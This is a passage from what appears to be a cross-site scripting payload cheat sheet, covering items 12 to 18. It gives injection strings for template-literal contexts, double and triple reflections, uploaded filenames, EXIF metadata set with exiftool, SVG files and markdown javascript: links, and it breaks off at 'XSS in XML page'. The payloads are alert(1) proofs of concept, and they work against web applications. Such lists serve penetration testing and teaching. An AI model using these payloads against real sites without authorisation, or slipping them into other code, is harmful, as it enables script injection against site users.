 ```html
```
* Example source code
```html
<script>
    var dapos = `REFLECTED_HERE`;
</script>
```
* After input the payload
```html
<script>
    var dapos = `${alert(1)}`;
</script>
```
12. Uses when there is multiple reflections on same page. (Double Reflection)
```html
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1='
*/alert(1)</script><script>/*
```
* After input the payload
```html
<!DOCTYPE html>
<html>
<body>
'onload=alert(1)><svg/1='
...
'onload=alert(1)><svg/1='
</body>
</html>
```
13. Uses when there is multiple reflections on same page. (Triple Reflection)
```html
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='
```
* After input the payload
```html
<!DOCTYPE html>
<html>
<body>
*/alert(1)">'onload="/*<svg/1='
...
*/alert(1)">'onload="/*<svg/1='
...
*/alert(1)">'onload="/*<svg/1='
</body>
</html>
```
14. XSS in filename (File Upload) Use when uploaded filename is reflected somewhere in target page
```
"><svg onload=alert(1)>.jpeg
```
15. XSS in metadata (File Upload) Use when uploaded metada is reflected somewhere in target page (using exiftool)
```
$ exiftool -Artist='"><script>alert(1)</script>' dapos.jpeg
```
16. XSS with SVG file (File Upload)
```
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```
17. XSS via markdown
```
[Click Me](javascript:alert('1'))
```
18. XSS in XML page